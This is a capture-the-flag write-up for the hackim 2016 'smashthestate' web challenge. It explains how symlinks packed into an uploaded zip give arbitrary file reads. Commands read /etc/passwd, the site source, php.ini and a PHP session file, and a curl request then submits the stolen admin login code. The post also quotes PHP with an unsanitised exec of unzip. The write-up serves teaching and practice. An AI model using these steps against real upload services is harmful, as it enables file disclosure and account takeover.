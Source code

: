 ```yaml
---
layout: post
title:  "hackim 2016: smasththestate (web 400)"
author: f0rki
categories: writeup
---
```


* **Category:** web
* **Points:** 400
* **Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
> Automated tools and bruteforcing will not help you solve this challenge.

## Write-up

We can login with the given credentials and upload a zip file. This zip file is
then unpacked and all the contents are `cat`ed.

When some archive (zip, tar or whatever) is unpacked the two things I try first
is: relative paths in the filename and symlinks. This time you could upload
symlinks. For this we must use the `-y` flag on the zip tool.

    $ ln -s /etc/passwd
    $ zip -y pwn.zip passwd

Upload and enjoy the passwd file. OK so we can read any file with the
webservers permission. Good start. Next we can use the vulnerability to get the
source of the site.

    $ ln -s ../../index.php
    $ zip -y pwn.zip index.php

And it happily dumps us the source code :) This is the vulnerable piece of code
that handles the zip upload:

    $tmp_file = '/var/www/html/tmp/upload_'.session_id();

    # ZipArchive may not be available
    # $zip = new ZipArchive;
    # $zip->open($_FILES['zipfile']['name']);
    # $zip->extractTo($tmp_file);
    exec('unzip -o '.$_FILES['zipfile']['tmp_name']. ' -d '.$tmp_file);
    echo "Zip contents: <br/>";
    passthru("cat $tmp_file/* 2>&1");
    exec("rm -rf $tmp_file");


Now how to get to the flag? It's easy to spot the interesting piece of code:

    $code = $_POST['code'];
    if (isset($code) && isset($_SESSION['login_code'])) {
        if ($code === $_SESSION['login_code'] ){
            echo "Flag: ";
            passthru("sudo /bin/cat /var/www/html/flag");
        }
        else {
            echo "Invalid code";
        }
    }

Apparently we are supposed to find the admin login code that is set in the
session. It is set in the following piece of code which we can trigger by
visiting `?page=admin_login_help`. It uses `openssl_random_pseudo_bytes` which
I assume is safe in terms of randomness.

    session_start();
    if(!isset($_SESSION['login_code']) ){
        $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
        echo "A login code has been emailed to the administrator. Once you have recieved it, please click <a href='?page=code_submit'>here</a>\n";
    }
    else {
        echo "There is already an active login code for this session";
    }

Let's find out how php is configured to store it's sessions. We can fetch the
active php.ini from `/etc/php5/apache2/php.ini`, again using the symlink in zip
vulnerability. From there we can see that it's stored in files under
`/var/lib/php5/`. So in my case I read the file
`/var/lib/php5/sess_a7l9q5dihoumkg02cjkagh8gj1` again using the zip symlink
vulnerability to get the login_code. Then it was simply a matter of submitting
the login code.

    $ curl 'http://54.152.101.3/?page=code_submit' \
        -H 'Cookie: PHPSESSID=a7l9q5dihoumkg02cjkagh8gj1'
        --data 'code=742aa277b035c96ef64cba0364c75e214596'

At first this returned nothing, so it seemed the flag file was empty or they
didn't configure sudo. Anyway after complaining on IRC and waiting a little,
the flag reading worked and it turned out to be:

    8e11a50ef762f924d7af9995889873e4

What a boring flag :(
